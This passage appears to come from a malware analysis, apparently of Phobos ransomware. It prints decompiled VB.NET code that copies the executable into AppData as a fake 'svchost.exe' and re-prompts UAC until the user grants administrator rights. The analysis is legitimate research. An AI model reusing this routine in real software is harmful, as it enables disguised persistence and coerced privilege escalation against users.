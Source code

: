 ![image](/images/phobos/phobos-03.png)

It copy the current executable to a specified location and attempt to run it with administrative privileges. 

```
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyResistForAdmin(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2) With { .UseShellExecute = True, .Verb = "runas", .WindowStyle = ProcessWindowStyle.Normal, .WorkingDirectory = text }
	Dim process As Process = New Process()
	process.StartInfo = processStartInfo
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Try
				Process.Start(processStartInfo)
				Environment.[Exit](1)
				Return
			Catch ex As Win32Exception
				If ex.NativeErrorCode = 1223 Then
					Program.copyResistForAdmin(processName)
				End If
				Return
			End Try
		End If
		Try
			File.Delete(text2)
			Thread.Sleep(200)
			File.Copy(friendlyName, text2)
		Catch
		End Try
		Try
			Process.Start(processStartInfo)
			Environment.[Exit](1)
		Catch ex2 As Win32Exception
			If ex2.NativeErrorCode = 1223 Then
				Program.copyResistForAdmin(processName)
			End If
		End Try
```